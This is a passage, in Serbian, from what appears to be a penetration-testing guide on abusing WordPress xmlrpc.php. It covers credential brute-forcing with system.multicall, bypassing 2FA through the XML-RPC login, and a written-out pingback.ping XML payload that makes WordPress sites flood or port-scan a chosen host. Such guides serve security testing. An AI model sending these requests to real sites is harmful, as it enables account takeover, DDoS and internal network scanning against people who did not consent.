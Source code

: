 ```markup
</member>
</struct>
</value>
</param>
</params>
</methodCall>
```

Takođe postoji **brži način** za brute-force pristupne podatke koristeći **`system.multicall`** jer možete isprobati nekoliko pristupnih podataka u istom zahtevu:

<figure><img src="../../.gitbook/assets/image (188).png" alt=""><figcaption></figcaption></figure>

**Bypass 2FA**

Ovaj metod je namenjen programima, a ne ljudima, i star je, stoga ne podržava 2FA. Dakle, ako imate validne pristupne podatke, ali je glavni ulaz zaštićen 2FA, **možda ćete moći zloupotrebiti xmlrpc.php da se prijavite tim pristupnim podacima zaobilazeći 2FA**. Imajte na umu da nećete moći obavljati sve radnje koje možete obavljati putem konzole, ali još uvek možete doći do RCE kako to objašnjava Ippsec u [https://www.youtube.com/watch?v=p8mIdm93mfw\&t=1130s](https://www.youtube.com/watch?v=p8mIdm93mfw\&t=1130s)

**DDoS ili skeniranje porta**

Ako možete pronaći metod _**pingback.ping**_ unutar liste, možete naterati Wordpress da pošalje proizvoljan zahtev bilo kom hostu/portu.\
Ovo se može koristiti da zatražite od **hiljada** Wordpress **sajtova** da **pristupe** jednoj **lokaciji** (tako da se **DDoS** izazove na toj lokaciji) ili možete koristiti da naterate **Wordpress** da **skenira** neku internu **mrežu** (možete naznačiti bilo koji port).

```markup
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```

